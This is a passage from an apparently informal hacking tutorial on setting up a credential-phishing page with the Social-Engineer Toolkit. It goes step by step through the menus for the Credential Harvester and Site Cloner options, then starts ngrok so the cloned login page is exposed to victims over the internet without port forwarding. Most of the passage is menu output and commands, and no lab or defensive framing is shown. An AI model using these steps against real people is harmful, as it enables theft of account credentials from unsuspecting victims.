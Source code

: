 Now select option number 2) will show following screen:

```
   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) Full Screen Attack Method
   8) HTA Attack Method

  99) Return to Main Menu

set:webattack>3

```

Now select option 3) from the list gives output as :

```
1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>2

```

and finally select option 2)

Now it'll ask for Post back IP Address here we want to performe this over WAN withought port forwarding the router and stuff that's why we choose ngrok right.!!

Fire up ngrok with following command :

```shell
./ngrok http 80
```

It'll give following output :

```
ngrok by @inconshreveable                                       (Ctrl+C to quit)
                                                                                
Session Status                online                                            
Account                       m4xx (Plan: paid)                                 
Version                       2.2.8                                             
Region                        United States (us)                                
Web Interface                 http://127.0.0.1:4040                             
Forwarding                    http://feb91dce.ngrok.io -> localhost:80          
Forwarding                    https://feb91dce.ngrok.io -> localhost:80         
                                                                                
Connections                   ttl     opn     rt1     rt5     p50     p90       
                              0       0       0.00    0.00    0.00    0.00      
                                                                            
```
